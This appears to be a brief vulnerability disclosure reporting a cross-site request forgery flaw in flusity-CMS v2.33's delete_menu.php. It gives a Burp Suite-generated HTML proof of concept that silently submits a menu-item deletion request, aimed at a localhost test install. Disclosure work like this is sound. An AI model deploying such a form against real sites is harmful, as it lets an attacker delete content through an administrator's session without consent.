 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  /core/tools/delete_menu.php

![1](https://github.com/Carl0724/cms/assets/82999276/8fd9375b-6fd1-4bf6-8a99-aec66173a2a1)

Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/core/tools/delete_menu.php" method="POST">
      <input type="hidden" name="action" value="delete&#95;menu&#95;item" />
      <input type="hidden" name="menu&#95;item&#95;id" value="12" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

![2](https://github.com/Carl0724/cms/assets/82999276/f445ad93-0143-482c-a379-15292071c542)


Successed

![3](https://github.com/Carl0724/cms/assets/82999276/0ce2864d-1c93-4ff1-afa2-0df66fdf24e3)
